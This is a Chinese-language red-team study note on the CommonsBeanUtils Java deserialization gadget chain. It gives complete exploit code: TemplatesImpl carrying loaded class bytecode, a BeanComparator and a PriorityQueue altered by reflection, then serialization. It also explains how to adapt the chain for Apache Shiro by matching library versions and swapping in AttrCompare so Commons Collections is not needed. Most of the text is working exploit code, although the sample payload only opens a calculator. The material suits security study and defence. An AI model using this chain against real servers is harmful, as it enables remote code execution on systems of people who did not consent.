







# 12 · 反序列化链 · CommonsBeanUtils

> 查阅区 · **只查不读**，不进学习路径。原文拆自 `JAVA安全-全本`，正文一字未改，仅调标题层级与图片相对路径。
> 什么时候翻：红队 M3；Shiro 无 CC 依赖时的主力链，与 Shiro 篇对照读

## CommonsBeanUtils 

- Apache中还有Beanutils工作集，用于操控JavaBean，用`PropertyUtils.getProperty()`可以调用成员变量的getter方法

  

- 打断点调试会发现在`PropertyUtilsBean`类中将传入的成员变量转为符合Bean的格式`name->Name`，最后`invokeMethod()`调用`getName()`并将获取的值返回



## 链子分析

这里选用命令执行方法是类加载，也就是调用`TemplatesImpl.newTransformer()`

- 这里使用上面分析的CB依赖调用，也就是要在`TemplatesImpl`类中找到调用了`newTransformer()`的某getter方法，这里找到`getOutputProperties()`

  

  - 编写简单EXP验证链的可行性

    ```java
    TemplatesImpl templates = new TemplatesImpl();
    Class templatesClass = templates.getClass();
    
    Field name = templatesClass.getDeclaredField("_name");
    name.setAccessible(true);
    name.set(templates, "name");
    
    Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
    bytecodes.setAccessible(true);
    byte[] code = Files.readAllBytes(Paths.get("D:\\Loader\\Calc.class"));
    byte[][] codes = {code};
    bytecodes.set(templates, codes);
    
    Field tfactory = templatesClass.getDeclaredField("_tfactory");
    tfactory.setAccessible(true);
    tfactory.set(templates, new TransformerFactoryImpl());
    
    //传入符合Bean格式要求的property 
    //outputProperties->getOutputProperties
    PropertyUtils.getProperty(templates, "outputProperties");
    ```

- 接着在CB类中找调用了`getProperty`的类，最后找到了`BeanComparator.compare()`

  

- 又想到CC2中在入口类`PriorityQueue`中调用了`compare()`，正好能将这个链接起来

  

  ```java
  TemplatesImpl templates = new TemplatesImpl();
  Class templatesClass = templates.getClass();
  
  Field name = templatesClass.getDeclaredField("_name");
  name.setAccessible(true);
  name.set(templates, "name");
  
  Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
  bytecodes.setAccessible(true);
  byte[] code = Files.readAllBytes(Paths.get("D:\\Loader\\Calc.class"));
  byte[][] codes = {code};
  bytecodes.set(templates, codes);
  
  Field tfactory = templatesClass.getDeclaredField("_tfactory");
  tfactory.setAccessible(true);
  tfactory.set(templates, new TransformerFactoryImpl());
  
  BeanComparator beanComparator = new BeanComparator("outputProperties");
  
  //将comparator传为beanComparator，进入BeanComparator.comapre()
  PriorityQueue priorityQueue = new PriorityQueue<>(beanComparator);
  //在队列中添加两个值，为了进入for循环
  priorityQueue.add(templates);
  priorityQueue.add(2);
  ```

- 然后再加上入口类和反序列化，并将代码整体优化一下

  ```java
  package CB;
  
  import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
  import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
  import com.sun.org.apache.xml.internal.security.c14n.helper.AttrCompare;
  import org.apache.commons.beanutils.BeanComparator;
  import org.apache.commons.beanutils.PropertyUtils;
  import org.apache.commons.collections4.comparators.TransformingComparator;
  import org.apache.commons.collections4.functors.ConstantTransformer;
  
  import java.io.*;
  import java.lang.reflect.Field;
  import java.nio.file.Files;
  import java.nio.file.Paths;
  import java.util.PriorityQueue;
  
  public class CB {
      public static void main(String[] args) throws Exception {
          TemplatesImpl templates = new TemplatesImpl();
          byte[] code = Files.readAllBytes(Paths.get("D:\\Loader\\Calc.class"));
  
          setFieldValue(templates, "_name", "Jw1ng");
          setFieldValue(templates, "_bytecodes", new byte[][]{code});
  
          BeanComparator beanComparator = new BeanComparator("outputProperties");
  
          PriorityQueue priorityQueue = new PriorityQueue<>(beanComparator);
          setFieldValue(priorityQueue, "queue", new Object[]{templates, 2});
  //这里之所以在queue中添加了值后还要修改size是因为queue和size是两个独立的字段，它们的更新不关联，也就是虽然通过反射添加了两个队列但size的值还是0，也就不会进入for循环
          setFieldValue(priorityQueue, "size", 2);
  
          serialize(priorityQueue);
          deserialize("cb.bin");
      }
  
      public static void setFieldValue(Object obj, String filename, Object value) throws NoSuchFieldException, IllegalAccessException {
          Field field = obj.getClass().getDeclaredField(filename);
          field.setAccessible(true);
          field.set(obj, value);
      }
  
      public static void serialize(Object obj) throws IOException {
          ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("cb.bin"));
          oos.writeObject(obj);
      }
  
      public static Object deserialize(String Filename) throws IOException, ClassNotFoundException {
          ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
          Object o = ois.readObject();
          return o;
      }
  }
  
  ```

## 两个问题

以上的EXP在本地能正确执行了，但是用于shiro漏洞时又有问题

- 首先是第一个问题`org.apache.commons.beanutils.BeanComparator; local class incompatible: stream classdesc serialVersionUID = -2044202215314119608, local class serialVersionUID = -3490850999041592962`

  - 这个问题的原因很简单，就是本地类生成序列化UID与目标类不符，也就是版本问题，我用的CB版本是1.9.2，而shiro环境用的是1.8.3，让版本相同即可

- 第二个问题是`Unable to load ObjectStreamClass [org.apache.commons.collections.comparators.ComparableComparator: static final long serialVersionUID = -291439688585137865L;]: `

  - 这里没有使用CC集，为什么又去加载呢，问题出在`BeanComparator`中

    

  - 这个类的构造方法中如果没有传入comparator就会通过`ComparableComparator`实例化，而`ComparableComparator`就是CC下的类，所以要传入一个jdk自带的`comparator`，要求是能序列化最后找到`AttrCompare`

    

  - EXP只需修改BeanComparator即可

    ```java
    BeanComparator beanComparator = new BeanComparator("outputProperties", new AttrCompare());
    ```

- Gadget

  ```java
  PriorityQueue.readObject()
      heapify()->siftDown->siftDownUsingComparator()
      	BeanComparator.compare()
      		PropertyUtils.getProperty()
      			TemplatesImpl.getOutputProperties()
      				TemplatesImpl.newTransformer()
      					TemplatesImpl.getTransletInstance()
      						TemplatesImpl.newInstance()
  ```
